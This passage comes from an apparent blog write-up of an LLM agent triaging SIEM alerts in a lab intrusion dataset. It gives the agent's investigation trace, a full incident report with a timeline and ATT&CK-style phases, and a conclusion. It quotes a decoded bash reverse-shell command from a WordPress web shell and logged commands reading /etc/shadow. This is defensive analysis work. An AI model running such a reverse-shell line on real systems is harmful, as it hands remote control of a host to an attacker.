**Task 1. Confirm post-scan transition from 172.17.130.196.** The agent profiled event volume for the IP and found four distinct bursts rather than one continuous stream. Among the retrieved web events it found repeated `POST /wp-login.php` responses returning HTTP `302` with a `HeadlessChrome/95.0.4638.69` user-agent. This looked automated—successful WordPress logins. More decisively, it retrieved a `200 OK` response to a PHP file at `/wp-content/uploads/2022/01/yqagisjaqe-1642509481.8663.php?wp_meta=...` with a response body of 506,717 bytes. The decoded `wp_meta` parameter contained `bash -c '0<&196;exec 196<>/dev/tcp/192.168.130.77/51898; sh <&196 >&196 2>&196'`. This is a live reverse-shell command. The PHP hit was added to the scratchpad as a confirmed payload artifact, and a new task was spawned: *Was the /wp-login.php transition followed by local execution?*

**Task 2. Inspect related host history for credential or lateral-movement indicators.** Searching on `wazuh-client` / `data.srcuser=phopkins` and on SSH authentication, the agent surfaced two `sshd: authentication success` events at `2022-01-17T18:48:09Z` and `18:53:11Z` for `hwarren` from `172.17.130.196`. This established that the attacker had valid credentials and accessed the host the day before the scan. The entry point alert was not the beginning of the intrusion.

**Task 3. Profile nearby web activity and trace the source IP.** Additional queries confirmed the scanning burst (`rule.groups=web_scan/recon`, rule `31151`) and a separate set of access-denied probes against hidden-file paths (`.htaccess`, `.htpasswd`) from the same IP. These are consistent with automated WordPress enumeration preceding the PHP payload. No new pivots were opened; the scratchpad now held the full scan-to-exploit chain for `172.17.130.196`.

**Task 4. Trace forward to Execution (kill-chain forward trace, auto-spawned on reverse-shell confirmation).** The agent searched for auditd exec records and shell-spawn indicators (`sh -i`, `bash -i`, `/dev/tcp`) around the sudo sequence at `13:14:31Z–13:14:49Z`. Shell-indicator searches returned zero hits. What it found instead were three `rule.id=5402` sudo-to-root events for `phopkins`: `/bin/ls -laR /root/`, `/bin/cat /etc/shadow`, and `list`. All originated from the working directory `/var/www/intranet.price.fox.org/wp-content/uploads/2022/01`, the same directory that held the PHP web shell. Privilege escalation and credential-access confirmed; two new tasks spawned: *Was execution logged through auditd?* and *Did phopkins perform any additional privileged actions?*

**Task 5. Trace forward to Command and Control.** Using `get_event_volume` the agent located two short TLS bursts on `2022-01-19` around `06:31Z` and `06:41Z`. Raw Suricata events in both bursts showed repeated connections from `172.17.130.196` to `200.147.160.22` and `200.147.166.107` (geolocated to Brazil), all classified as `SURICATA TLS invalid handshake message / Generic Protocol Command Decode`. The agent boarded these as suspicious but unconfirmed. No payload or callback semantics were recoverable from Suricata decode-only alerts. It spawned two follow-up tasks to drill into each burst.

**Tasks 6–8. Follow-up confirmations and negatives.** The auditd task confirmed no exec-family audit trail existed beyond PAM session handling. The sudo route was unlogged at the auditd level. The `phopkins` follow-up confirmed the three-event sudo burst was the only privileged activity in the window, with nothing after. The reverse-shell callback task (`192.168.130.77:51898`) returned web-access-denied and SSH-failure events for that IP. This confirmed it as the C2 target embedded in the payload, not a source of inbound authentication. Exfiltration and impact searches came back negative: transfer-verb keyword searches and deletion/service-stop searches both returned zero. A TI task confirmed `37.252.173.38` appeared in SIEM as another Suricata TLS anomaly peer, also decode-only.

</details>

**Final report:**

<details>
<summary>Final report (click to expand)</summary>

### Verdict

`compromise confirmed / critical / active`

### Executive Summary

This incident is a confirmed host compromise with post-login exploitation and privilege escalation on the affected system. The strongest evidence is a payload-bearing PHP request that delivered a reverse-shell command, followed by confirmed privileged discovery via `sudo` as `root`.

Suspicious bursty TLS anomaly traffic appears later in the timeline, but that network activity is not required to establish compromise because the web payload already proves malicious execution.

- Scope and impact: `impact=active`, `scope=unknown`
- Rationale: compromise is confirmed, but exfiltration and C2 semantics are not proven from retrieved telemetry

### Confirmed Timeline

- `2022-01-17T18:48:09Z` - Successful SSH authentication for `hwarren` from `172.17.130.196` on `mail` (`MI_ym9CE2cQb35Uf5SdB`)
- `2022-01-17T18:53:11Z` - Successful SSH authentication for `hwarren` from `172.17.130.196` on `mail` (`c2fGdZtOrKTaUVzOd0Oc`)
- `2022-01-18T12:17:29Z` - Recon/probing from `192.168.130.77` against `wazuh-client` web/SSH services, including denied HTTP paths and failed SSH identification (`5DnBlrYOu4I_OJMqwF0U`)
- `2022-01-18T12:19:13Z` - Web `404` probing from `172.17.130.196` for `/wp-content/ls` on `wazuh-client` (`17RbR7fiIXtw3vcNz4my`)
- `2022-01-18T12:21:55Z` - Denied hidden-file probing from `172.17.130.196` on `wazuh-client` (`bR4p1Y4I2bFapnHKhiJm`)
- `2022-01-18T13:14:41Z` - Privileged `sudo` command execution by `phopkins` as `root`, including list from `/var/www/intranet.price.fox.org/wp-content/uploads/2022/01` (`93U42Z2IP5NGEG-s3apq`)
- `2022-01-18T13:14:43Z` - Privileged `sudo` command execution by `phopkins` as `root` running `/bin/ls -laR /root/` (`r7CyyqWsZCjejfvpJO4B`)
- `2022-01-18T13:14:49Z` - Privileged `sudo` command execution by `phopkins` as `root` running `/bin/cat /etc/shadow` (`3kp8gZqt29xgUPf7VD3i`)
- `2022-01-18T16:41:34Z` - Successful automated WordPress login-endpoint transition from `172.17.130.196` with `HeadlessChrome/95.0.4638.69` (`QLD_rIpVzK-_hc3ku3bR`)
- `2022-01-19T06:31:06.641560Z` - Outbound TLS anomaly to `200.147.160.22` involving `172.17.130.196:34694` (`5HFkDzfgV7uTXnlEsfYu`)
- `2022-01-19T06:31:09.989986Z` - Outbound TLS anomaly to `200.147.166.107` involving `172.17.130.196:40700` (`tov4qRHC7WlxlwhEpsNi`)
- `2022-01-19T06:41:02.862781Z` - Repeated outbound TLS anomaly to `200.147.166.107` involving `172.17.130.196:41006` (`XqjMg0uNRwH1KxIj939H`)
- `2022-01-19T06:45:38.182195Z` - Suricata TLS anomaly tied to `37.252.173.38` and `172.17.130.196:40892` (`BDl4MNGooMNYF5YqZg2J`)
- `2022-01-19T09:27:31Z` - Successful automated WordPress login-endpoint transition from `172.17.130.196` (`7c04PxOl9K3PKpKQcoDx`)
- `2022-01-18T12:19:13Z` - Temporal gap (`~17.5h`): causal link unconfirmed between early recon/login activity and later `2022-01-19` TLS anomaly bursts
- `2022-01-19T06:31:06Z` - Temporal gap (`~17.3h`): causal link unconfirmed between `sudo`/payload activity and later outbound TLS anomaly bursts

### Phase-by-Phase Findings

#### Reconnaissance

Evidence shows web probing of protected paths and scan-like requests from `172.17.130.196`, plus probing from `192.168.130.77` against the host. This supports reconnaissance with moderate confidence because requests were denied or returned `404` and match scan behavior.

- Confidence: `moderate`
- Evidence-to-conclusion link: denied hidden-file probes, `/wp-content/ls`, and related requests indicate enumeration rather than normal browsing

#### Initial Access

Initial access is confirmed as successful remote access from `172.17.130.196` via SSH authentication for `hwarren`. Later automated WordPress login transitions from the same source IP and the payload-bearing PHP request show continued post-scan access on `wazuh-client`.

- Confidence: `high`
- Evidence-to-conclusion link: SSH success establishes real access; later web transitions show access persisted into follow-on activity

#### Execution

Execution is confirmed by a payload-bearing PHP request that returned HTTP `200` and carried a bash reverse-shell command targeting `192.168.130.77:51898`.

- Confidence: `critical/high`
- Evidence-to-conclusion link: decoded reverse-shell payload proves staged execution on host

#### Persistence

Persistence is not confirmed from retrieved evidence.

- Confidence: `low`
- Evidence-to-conclusion link: available events show exploitation and follow-on activity, but no persistence artifact such as service registration, startup modification, or recurring autorun mechanism

#### Privilege Escalation

Privilege escalation is confirmed by a `sudo` burst where `phopkins` ran as `root` and accessed `/root/` and `/etc/shadow`.

- Confidence: `high`
- Evidence-to-conclusion link: `sudo`-to-`root` command execution is a clear escalation step

#### Defense Evasion

Defense evasion is not confirmed.

- Confidence: `low`
- Evidence-to-conclusion link: no evidence of log tampering, agent disabling, or explicit evasion tooling

#### Credential Access

Credential access is partially supported by `/bin/cat /etc/shadow`, which is direct access to credential material.

- Confidence: `moderate/high`
- Evidence-to-conclusion link: shadow-file access is credential-access behavior, but exfiltration/cracking is not proven

#### Discovery

Discovery is strongly confirmed by `/bin/ls -laR /root/`, directory listing activity, and `/bin/cat /etc/shadow` during the `sudo` burst.

- Confidence: `high`
- Evidence-to-conclusion link: commands are classic host/file discovery and are explicitly logged

#### Lateral Movement

Lateral movement is not confirmed.

- Confidence: `low`
- Evidence-to-conclusion link: SSH success from `172.17.130.196` shows remote access to one host, but no second-stage authenticated movement appears in provided evidence

#### Command and Control

Command and control remains suspicious but unconfirmed.

- Confidence: `moderate` for suspicion, `low` for confirmation
- Evidence-to-conclusion link: repeated Suricata TLS anomalies to `200.147.160.22` and `200.147.166.107` (plus one tied to `37.252.173.38`) suggest possible beaconing, but alerts are decode-noise only with no payload/callback semantics

#### Exfiltration

Exfiltration is not confirmed.

- Confidence: `low`
- Evidence-to-conclusion link: no file-transfer telemetry, bytes-out evidence, archive creation, or transfer semantics; TLS anomalies do not establish data theft

#### Impact

Impact is not proven in the form of deletion, encryption, or service destruction.

- Confidence: `moderate` that impact is not evidenced; `high` that compromise is active
- Evidence-to-conclusion link: searches for deletion and service-stop indicators were negative; remaining activity is recon, privilege escalation, and malicious execution

### Open Gaps

- First suspicious source IP for the broader chain is not fully established from one continuous session; SSH access from `172.17.130.196` is confirmed, but there is no uninterrupted connector artifact across all later events
- C2 remains unconfirmed; repeated TLS anomalies are suspicious but decode-only and do not contain payload/callback semantics
- Exfiltration remains unproven; no mapped bytes-out telemetry, file-transfer event, or staged archive evidence in retrieved slice
- Persistence remains unconfirmed; no service, `cron`, autorun, or agent-tampering evidence retrieved
- Temporal relationship between early recon/access activity and later TLS bursts is not causally tied in provided data
- Exact post-exploitation operator workflow after the payload-bearing PHP request is not fully reconstructed from retrieved telemetry

### Recommended Actions

- Isolate `wazuh-client` immediately from the network, preserving volatile evidence first if possible
- Reset or disable credentials associated with `hwarren` and `phopkins`, and review any other accounts observed in the chain
- Hunt for reverse-shell web artifacts and related PHP files under `/wp-content/uploads/2022/01`, and remove/quarantine only after evidence capture
- Review `/root/`, `/etc/shadow`, web logs, and authentication logs for additional post-exploitation access and credential harvesting
- Search for persistence mechanisms on host: `cron`, `systemd` services, startup scripts, web shells, scheduled tasks, and agent tampering
- Pivot on `192.168.130.77:51898`, `200.147.160.22`, `200.147.166.107`, and `37.252.173.38` across the environment for related activity
- Collect network telemetry around `2022-01-19` TLS bursts to determine whether events correspond to beaconing or benign decode noise
- Validate whether any other hosts received the same payload or similar automated login activity, and scope for lateral spread
- Patch the vulnerable web application and harden WordPress upload/execution controls to prevent repeat exploitation

  </details>

This trace shows the two design ideas paying off: the **queue** kept the agent
pivoting into new phases instead of stopping at the first alert, and the
**scratchpad** let a finding from one task (the suspicious IP) drive the next.

## Conclusion

This started from a simple frustration during my BTL1 studies: so much of SIEM investigation is repetitive query-writing over an overwhelming volume of alerts. The goal was never to replace the analyst, but to automate that first pass.

On the **fox** scenario, the system did two things I care about: it reached well past the entry alert into the rest of the intrusion, and it tied what it found into one coherent, evidence-backed story instead of a pile of disconnected observations. How far that generalizes is genuinely uncertain. Six runs on one scenario is a pilot, not a proof (see Limitations). But the pattern itself is the point.

Traditional LLM agents are good at answering questions. SOC investigation isn't question-answering. It's open-ended evidence gathering under uncertainty, where the right next query depends entirely on what the last one turned up. This project suggests that giving an agent explicit task management and evidence tracking (not just a bigger context window or a better prompt) is what makes that kind of investigation tractable.

## References

* Landauer, M., Skopik, F., Wurzenberger, M. (2024): [Introducing a New Alert Data Set for Multi-Step Attack Analysis.](https://dl.acm.org/doi/abs/10.1145/3675741.3675748) Proceedings of the 17th Cyber Security Experimentation and Test Workshop. \[[PDF](https://dl.acm.org/doi/pdf/10.1145/3675741.3675748)\]
* Landauer M., Skopik F., Frank M., Hotwagner W., Wurzenberger M., Rauber A. (2023): [Maintainable Log Datasets for Evaluation of Intrusion Detection Systems.](https://ieeexplore.ieee.org/abstract/document/9866880) IEEE Transactions on Dependable and Secure Computing, vol. 20, no. 4, pp. 3466-3482. \[[PDF](https://arxiv.org/pdf/2203.08580.pdf)\]
